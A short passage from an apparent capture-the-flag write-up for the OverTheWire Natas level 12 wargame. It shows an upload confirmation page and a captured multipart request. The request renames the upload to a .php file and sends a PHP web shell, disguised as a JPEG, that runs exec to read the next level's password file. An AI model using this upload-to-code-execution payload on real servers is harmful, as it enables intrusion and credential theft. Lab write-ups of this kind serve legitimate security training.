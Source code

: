 ```html
<div id="content">
The file <a href="upload/hhbhtomk6e.php">upload/hhbhtomk6e.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

![natas12-04](/assets/images/otw-natas/natas12-04.png)

Yep, it's over.

```html
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="filename"

ohcrap.php
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="uploadedfile"; filename="thor.jpg"

<?php echo exec("cat /etc/natas_webpass/natas13"); ?>
-----------------------------58323604319210243021201378353--
```
